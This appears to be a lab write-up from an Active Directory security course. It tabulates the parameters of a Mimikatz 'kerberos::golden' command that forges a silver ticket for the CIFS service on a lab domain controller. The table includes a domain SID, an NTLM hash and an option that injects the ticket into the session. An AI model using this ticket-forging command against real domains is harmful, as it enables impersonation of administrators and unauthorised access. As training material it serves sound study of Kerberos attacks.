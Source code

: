 # Content Lab15:

![Silver-Ticket](Silver-ticket.png)

## Silver ticket creation table:

| parameter  | Description |
| ------------- | ------------- |
| kerberos::golden  | Name of module Mimikatz/Bettersafetykatz  |
| /User:Administrator  | Username for wich the TGT is generated  |
|/domain:us.techcorp.local| Domain FQDN|
|/sid:S-1-5-21-738119705-704267045-3387619857| SID of the domain|
|/target:us-dc.us.techcorp.local| Target server FQDN|
|/service:cifs| The SPN of service for wich TGS is to be created|
|/rc4:9ebf9c00ce2ce54af48fd03f4a7039c5| NTLM(RC4) hash of the service account. Use aes128 and aes256 for using AES keys|
|/id:500 /groups:512 | Optional User RID (default 500) and Group (default 513 512 520 518 519)|
|/ptt | injects the ticket on the current sessionprocess|
|/startoffset:0 |Optional when the ticket is available|
|/endin:600| Optional ticket lifetime (default 10 years)|
|/renewmax:10080| Optional ticket lifetime with renewwal (default 10 years)|
